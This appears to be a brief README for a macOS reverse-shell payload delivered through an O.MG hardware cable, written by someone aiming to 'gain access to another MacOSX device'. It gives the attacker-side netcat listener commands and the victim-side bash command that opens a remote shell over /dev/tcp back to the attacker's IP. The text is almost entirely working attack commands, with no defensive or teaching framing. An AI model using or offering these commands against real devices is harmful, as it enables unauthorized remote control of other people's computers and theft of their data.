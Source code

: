 # This is, at heart, is a simple reverse shell to gain access to another MacOSX device. I'm looking into creating a tight shell that can run like a daemon but that is a wet dream atm.

# FIRST STEP(s):
# run this on the attackers machine
    nc -l 'any port'
# This initialzes your computers listening protocol to look for TCP connections
# IMPORTANT
# open another Terminal window and run to obtain your computers local ip (this is important for the next step)
    ipconfig getifaddr en0

# NEXT STEP:
# Then simply run the script in your O.MG UI when the cable is connected

# An example of the code run on the attackers computer:
    nc -l 80

# An example of the code run on the victims computer:
    bash -i >& /dev/tcp/10.0.0.1/80 0>&1
